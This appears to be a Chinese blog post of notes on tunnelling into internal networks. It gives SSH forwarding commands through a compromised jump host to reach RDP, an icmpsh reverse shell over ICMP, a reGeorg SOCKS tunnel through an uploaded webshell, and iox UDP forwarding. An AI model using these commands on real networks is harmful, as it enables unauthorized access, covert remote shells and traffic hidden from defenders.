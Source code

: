 ```yaml
---
title: 内网穿透-隧道搭建-001
layout: post
post-image: /assets/images/bg.jpg
description: 记录一些内网穿透工具和方法
tags:
- 内网穿透
- 隧道搭建
---
```


# 内网穿透-隧道搭建-001   
--法外狂徒张三      


## SSH通道

将目标机器上的3389端口映射到vps上

**1.本地转发**

在vps上执行：

`ssh -CfNg -L 1153（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

查看连接情况：

`Netstat -tulnp | grep "1153"`

连接目标机器3389

`rdesktop 127.0.0.1:1153(vps)`

**2.远程转发**

vps执行：

`ssh -CfNg -R 3307（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

连接目标机器3389

`rdesktop 127.0.0.1:3307(vps)`

注：本地转发是将远程主机（服务器）某个端口的数据转发到本地机器的指定端口。远程端口转发则是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据都会通过SSH隧道传输到本地的对应端口

**3.动态转发**

`ssh -CfNg -D 7000（监听端口） root@192.168.1.11(被控机器)`

SSH隧道常用参数

-C： 压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的shell

-N：建立静默连接（建立了连接，但是看不到具体会话）

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发（socks代理）

-P：指定SSH端口

## ICMP协议

使用工具icmpsh

关闭ping命令

`Sysctl -w net.ipv4.icmp_echo_ignore_all=1`

`Icmpsh.exe -t 192.168.1.7 -d 500 -b 30 -s 128`

## HTTP协议

工具：reGeorg

上传reg脚本后，当页面“Georg says, 'All seems fine'”，表示脚本运行正常

本地机器执行：

`python2 reGeorgSocksProxy.py -p 9999 -u http://ip:8080/tunnel/tunnel.jsp`

注：流量为明文，需要隐藏时可下载neo-reGeorg



## UDP

工具：IOX

```
./iox fwd -l 53 -r *127.0.0.1:8888 -k 000102 -u
./iox fwd -l *8888 -l *9999 -k 000102 -u
./iox fwd -r *127.0.0.1:9999 -r 8.8.8.8:53 -k 000102 -u
```

更多见官方介绍 ，[iox](https://github.com/EddieIvan01/iox)



---



